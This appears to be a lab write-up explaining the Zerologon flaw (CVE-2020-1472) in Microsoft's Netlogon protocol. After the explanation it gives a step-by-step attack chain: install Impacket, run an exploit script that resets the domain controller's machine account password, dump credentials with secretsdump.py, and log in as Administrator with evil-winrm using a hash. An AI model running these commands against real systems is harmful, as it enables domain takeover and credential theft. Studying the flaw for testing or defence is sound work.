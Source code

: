 Secura released a whitepaper for CVE-2020-1472, that allowed an attacker to go from Zero to Domain Admin in approximately one minute. They dubbed this vulnerability Zero Logon.

Zero Logon is a purely statistics based attack that abuses a feature within MS-NRPC.

MS-NRPC (Microsoft NetLogon Remote Protocol) : 

MS-NRPC is a critical authentication component of Active Directory that handles authentication for User and Machine accounts.

the attack mainly focuses on a poor implementation of Cryptography.

Microsoft chose to use `AES-CFB8` for a function called `ComputeNetlogonCredential`, which is normally fine, except they had hard coded the Initialization Vector to use all zeros instead of a random string. When an attacker sends a message only containing zeros with the IV of zero, there is a 1-in-256 chance that the Ciphertext will be Zero. 

**machines account vs user account**

- if we tried a statistics based attack on any user account, we would get locked out. 
-  This is not the case if we apply this principal to machine accounts. 

***

```
Use Zero Logon to bypass authentication on the Domain Controller's Machine Account -> Run Secretsdump.py to dump credentials -> Crack/Pass Domain Admin Hashes -> ??? -> Profit

```

***

Zerologin vulnerability present within the way Microsoft handles Authentication within `ComputeNetLogonCredetial` function of `MS-NRPC`. 

Lets understand the `MS-NRPC`.

[img](https://www.zdnet.com/a/hub/i/2020/09/11/91ce3485-5a9b-4fd7-9bdb-908084954c58/zerologon-attack.png)


Step 1. The client creates a NetrServerReqChallenge and sends it off. This contains the following values:

```
1. The DC
2. The Target Device (Also the DC, in our case)
3. A Nonce (In our case is 16 Bytes of Zero).

```

Step 2. The server receives the NetrServerReqChallenge, the server will then generate it's own Nonce (This is called the Server Challenge), the server will send the Server Challenge back.

Step 3. The client (us) will compute it's NetLogon Credentials with the Server Challenge provided [Figure 1. Step 3]. It uses the NetrServerAuthenticate3 method which requires the following parameters

```
1. A Custom Binding Handle (Impacket handles this for us, it's negotiated prior)
2. An Account Name (The Domain Controller's machine account name. ex: DC01$)
3. A Secure Channel Type (Impacket sort of handles this for us, but we still need to specify it: [nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel])
4. The Computer Name (The Domain Controller ex: DC01)
5. The Client Credential String (this will be 8 hextets of \x00 [16 Bytes of Zero])  
6. Negotiation Flags (The following value observed from a Win10 client with Sign/Seal flags disabled: 0x212fffff Provided by Secura)

```

Step 4. The server will receive the NetrServerAuthenticate request and will compute the same request itself using it's known, good values. If the results are good, the server will send the required info back to the client. 

The above steps above will be looped through a certain number of times to attempt to exploit the Zero Logon vulnerability. The actual exploit occurs at Step 3 and 4, this where we're hoping for the Server to a have the same computations as the client. This is where are 1-in-256 chance comes in.

Step 5. If the server calculates the same value, the client will re-verify and once mutual agreement is confirmed, they will agree on a session key. The session key will be used to encrypt communications between the client and the server, which means authentication is successful.

****

## Impacket installation

```
python3 -m pip install virtualenv

python3 -m virtualenv impacketEnv

source impacketEnv/bin/activate

pip install git+https://github.com/SecureAuthCorp/impacket

```

****

## how to exploit.

check if vulnerable or not.

`python3 zerologon-exploit.py <dc-name> <dc-ip>`

```

 _____                   __                          
/ _  / ___ _ __ ___     / /  ___   __ _  ___  _ __  
\// / / _ \ '__/ _ \   / /  / _ \ / _` |/ _ \| '_ \ 
 / //\  __/ | | (_) | / /__| (_) | (_| | (_) | | | |
/____/\___|_|  \___/  \____/\___/ \__, |\___/|_| |_|
                                  |___/             
                Vulnerability Discovered by Tom Tervoort
                              Exploit by Ronnie Bartwitz
   
Performing authentication attempts...
Failure to Autheticate at attempt number: 56
Zero Logon successfully exploited, changing password.


```

dump the passwords :

`python3 secretsdump.py -just-dc -no-pass DC01\$@$ip`

log in with evil-rm

`evil-winrm -u Administrator -H ntlm hash -i $ip`
eg :
`evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i $ip`